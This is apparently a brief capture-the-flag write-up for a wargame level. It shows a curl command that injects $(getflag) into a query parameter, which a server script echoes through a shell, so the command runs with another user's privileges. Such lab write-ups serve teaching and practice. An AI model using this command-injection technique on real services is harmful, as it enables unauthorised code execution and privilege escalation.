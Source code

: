 #file level04 runs on a server on port 4747
#it prints the item passed to x in the query string

curl localhost:4747?x='$(getflag)'

## In this instruction : print `echo $y 2>&1`
## $y is what we send from variable x in url
## Command will be executed by privileges of flag04 so we put $(getflag) in variable x into URL
## as it would be evaluated with flag04 privileges
